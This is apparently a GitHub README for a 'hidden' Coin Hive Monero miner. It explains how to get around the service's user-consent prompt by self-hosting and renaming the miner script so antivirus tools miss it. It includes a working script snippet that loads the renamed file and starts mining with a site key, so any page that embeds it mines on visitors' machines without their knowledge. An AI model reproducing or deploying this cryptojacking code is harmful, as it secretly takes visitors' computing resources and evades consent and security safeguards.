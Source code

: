 # Coin-Hive_Hidden-Miner.github.io

<h2>Silent HTML Monero Miner</h2>

 :trollface: :trollface: :trollface: :trollface: :trollface: :trollface::trollface: :trollface: :trollface: :trollface: :trollface: :trollface:

https://jonnybanana.github.io/Coin-Hive_Hidden-Miner.github.io/

 :trollface: :trollface: :trollface: :trollface: :trollface: :trollface::trollface: :trollface: :trollface: :trollface: :trollface: :trollface:

![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/coinhive-icon.png)

I have created this simple html page as a demonstration on how to make hidden the javascript miner of Coin Hive.<BR>
In fact, even if the site says that you can not use the miner without the consent of the user, in reality, things are very different ...</BR>
In part however it is true what they say, in fact if you try to call the .js file of the miner directly from their servers, that is:

https://coinhive.com/lib/coinhive.min.js?v8</BR>
https://authedmine.com/lib/authedmine.min.js?v8

you will see that the user's consent will be required, but the thing is easily circumvented, in fact just host the .js file directly on the server where you host the html page you want to use for the miner, for security I also changed the file name, since now the miner is well known by the vendor antivirus and company ....

<h3> Requirements </h3>

* a Coin Hive Account (https://coinhive.com)
* a Monero Wallet to make the withdraw  (https://mymonero.com/#/)
* a Web Server or a Website (also Github)
* a Coin Hive site key


<h3> Browser Compatibility </h3>

All

<h3> How it Works??? </h3>

![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/screenshot.JPG)

https://coinhive.com/documentation/miner#constructor-options

https://coinhive.com/lib/coinhive.min.js?v8

 <script src="https://jonnybanana.github.io/Coin-Hive_Hidden-Miner.github.io/pino.js"></script>
<script>
 var miner = new CoinHive.Anonymous('YhWQAh8Vm7tIshKjOsp75jpDDVaO5kkU', {throttle: 0.2});
  miner.start();
</script> 

![Alt text](http://www.imigliorifaucet.it/g1.gif)




<h3> Curiosity </h3>

The image PNG used as background in this example is actually a simple algorithm designed / written in PIET.</BR>
Who wants can test it in the online interface from here: https://www.bertnase.de/npiet/npiet-execute.php


![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/bit.png)
